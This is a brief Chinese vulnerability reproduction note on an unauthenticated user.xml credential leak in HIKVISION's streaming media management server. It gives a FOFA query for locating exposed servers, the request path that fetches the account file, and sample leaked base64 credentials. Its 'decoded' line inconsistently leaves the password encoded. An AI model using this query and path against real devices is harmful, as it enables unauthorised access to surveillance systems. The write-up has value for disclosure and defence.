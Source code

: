 # HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

HIKVISION 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

```
HIKVISION 流媒体管理服务器
```

## FOFA

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登陆页面

![image-20220519172629739](./images/202205191726829.png)

POC

```
/config/user.xml
```

![image-20220519172714407](./images/202205191727443.png)

```
<user name="YWRtaW4=" password="MTIzNDU="/>
```

base64解密

```
<user name="admin" password="MTIzNDU="/>
```

